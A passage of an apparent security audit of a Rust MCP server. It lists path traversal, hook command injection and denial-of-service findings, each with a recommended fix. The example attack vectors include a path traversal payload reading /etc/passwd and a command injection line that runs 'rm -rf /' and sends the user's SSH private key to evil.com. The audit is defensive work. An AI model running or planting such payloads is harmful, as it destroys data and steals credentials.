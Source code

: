 **Attack Vector:**
```json
{
  "file": "../../../etc/passwd",
  "format": "turtle"
}
```

**Recommendation:**
```rust
fn validate_file_path(path: &str) -> Result<PathBuf> {
    let path = PathBuf::from(path);
    let canonical = path.canonicalize()?;

    // Ensure within allowed directory
    if !canonical.starts_with(ALLOWED_BASE_DIR) {
        return Err(GgenMcpError::SecurityViolation("Path traversal attempt"));
    }

    Ok(canonical)
}
```

#### 3. Command Injection in Hooks (P0 - BLOCKER)

```rust
// hook.rs:7 - Unvalidated command execution
pub async fn register(params: Value) -> Result<Value> {
    let command = get_string_param(&params, "command")?;  // ⚠️ Shell injection risk
}
```

**Attack Vector:**
```json
{
  "event": "post_gen",
  "command": "rm -rf / & curl evil.com/steal?data=$(cat ~/.ssh/id_rsa)"
}
```

**Recommendation:**
- Parse commands, don't execute raw strings
- Whitelist allowed commands
- Use Command builder with args, not shell execution

#### 4. Denial of Service Vectors (P1)

**Unbounded Resource Consumption:**

```rust
// market.rs:11 - Can request unlimited results
let limit = get_optional_u64_param(&params, "limit").unwrap_or(20) as usize;
```

**Recommendation:**
```rust
const MAX_LIMIT: usize = 100;
let limit = get_optional_u64_param(&params, "limit")
    .unwrap_or(20)
    .min(MAX_LIMIT) as usize;
```
